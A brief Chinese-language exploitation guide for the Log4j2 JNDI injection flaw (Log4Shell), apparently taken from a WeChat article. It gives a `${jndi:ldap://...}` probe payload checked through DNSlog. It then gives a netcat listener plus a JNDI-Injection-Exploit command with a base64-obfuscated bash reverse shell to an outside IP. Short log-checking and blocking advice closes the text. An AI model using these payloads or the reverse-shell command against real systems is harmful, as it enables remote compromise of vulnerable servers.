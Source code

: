 https://mp.weixin.qq.com/s/PauCiWuR7tDdW5AeArorwQ

# 1测试

1.http://dnslog.cn/ 点击 Get Subdomain获取子域名
2.payload值：`${jndi:ldap://nlhkzw.dnslog.cn}` ,如果是Get方式进行url编码
3.dnslog页面点击 `Refresh Record` 有数据为有漏洞

# 2漏洞利用

https://github.com/welk1n/JNDI-Injection-Exploit/releases/tag/v1.0

vps上启动监听 

（注意：-A 后面加的是kali服务器IP）
```sh
nc -lvp 6666
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIxLjEyOC82NjY2IDA+JjEg}|{base64,-d}|{bash,-i}" -A 192.168.21.128
# base64为 bash -i >& /dev/tcp/192.168.21.128/6666 0>&1 
# 用到 8180 1099 1389 6666 端口
```

# 3漏洞检查

1.检查日志中是否存在"jndi:ldap://"、"jndi:rmi"等分析是否存在攻击行为

2.检查log4j2版本是否在影响版本之内

3.通过安全产品如waf、态势感知、IPS等进行攻击拦截
